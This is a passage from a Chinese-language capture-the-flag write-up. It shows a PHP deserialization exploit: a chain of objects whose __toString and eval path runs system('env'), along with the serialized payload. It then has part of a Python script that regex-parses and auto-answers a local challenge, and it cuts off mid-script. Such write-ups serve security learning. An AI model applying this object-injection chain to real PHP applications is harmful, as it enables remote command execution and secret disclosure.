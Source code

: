 把`$this->sec`赋值为`class003`类的对象，既可以因为`dangerous`方法把他当字符串，触发`__tostring`方法，`$this->mystr`作为字符串返回，也可以为后面触发evvval方法做铺垫，执行`$this->mystr`的值


先改public打出payload，再手动添加权限修饰符

exp

```php
$payload = new class000();
$payload -> pay10ad = 1;
$payload -> what = new class001();
$payload -> what -> payl0ad = "dangerous";
$payload -> what -> a = new class002();
$payload -> what -> a -> sec = new class003();
$payload -> what -> a -> sec -> mystr = "system('env');";
echo serialize($payload);
# O:8:"class000":3:{s:17:"%00class000%00payl0ad";i:1;s:7:"%00*%00what";O:8:"class001":2:{s:7:"payl0ad";s:9:"dangerous";s:1:"a";O:8:"class002":1:{s:13:"%00class002%00sec";O:8:"class003":1:{s:5:"mystr";s:14:"system('env');";}}}s:7:"pay10ad";i:1;}
```

## 勇闯铜人阵

看题目的图片，数字对应的方向，写一个python脚本，用正则匹配给出的数字，构造payload，提交

```python
import re
import time
import requests

url = "http://127.0.0.1:51723/"

data = {
    "player":"1",
    "direct":"弟子明白"
}
s = requests.session()
resp = s.post(url,data=data)
direct_dict = {
    "1":"北方",
    "2":"东北方",
    "3":"东方",
    "4":"东南方",
    "5":"南方",
    "6":"西南方",
    "7":"西方",
    "8":"西北方"
}

for n in range(5):
    # 使用正则表达式匹配<h1>标签中的数字
    pattern = r'<h1 id="status">\s*(\d)(?:,\s*(\d+))?\s*</h1>'
    matches = re.findall(pattern, resp.text)
    num = []
    for match in matches:
        num.append(int(match[0]))
        if match[1]:
            num.append(int(match[1]))
    print(num)

    payload = ''
    if len(num) == 1:
       payload = direct_dict[f"{num[0]}"]
       print(payload)
    elif len(num) == 2:
```